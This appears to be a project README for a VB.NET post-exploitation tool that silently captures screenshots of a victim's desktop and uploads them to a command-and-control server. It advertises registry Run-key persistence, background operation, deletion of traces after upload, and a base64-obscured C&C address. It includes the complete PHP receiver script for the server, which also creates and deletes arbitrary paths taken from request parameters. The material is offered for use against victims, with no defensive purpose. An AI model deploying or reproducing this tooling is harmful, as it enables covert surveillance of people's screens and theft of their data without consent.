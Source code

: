 
$$\      $$\ $$$$$$$\        $$$$$$$\  $$$$$$$$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  
$$$\    $$$ |$$  __$$\       $$  __$$\ $$  _____|\__$$  __|$$  _____|$$  __$$\ 
$$$$\  $$$$ |$$ |  $$ |      $$ |  $$ |$$ |         $$ |   $$ |      $$ |  $$ |
$$\$$\$$ $$ |$$$$$$$  |      $$$$$$$  |$$$$$\       $$ |   $$$$$\    $$$$$$$  |
$$ \$$$  $$ |$$  __$$<       $$  ____/ $$  __|      $$ |   $$  __|   $$  __$$< 
$$ |\$  /$$ |$$ |  $$ |      $$ |      $$ |         $$ |   $$ |      $$ |  $$ |
$$ | \_/ $$ |$$ |  $$ |      $$ |      $$$$$$$$\    $$ |   $$$$$$$$\ $$ |  $$ |
\__|     \__|\__|  \__|      \__|      \________|   \__|   \________|\__|  \__|
                                                                               
                                                                          
## Silent Screenshot Capture | Post Exploitation Tool | VB.NET

A simple payload to take the screenshot of victims desktop and upload it to the C&C.

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot on after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new php file and put this code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
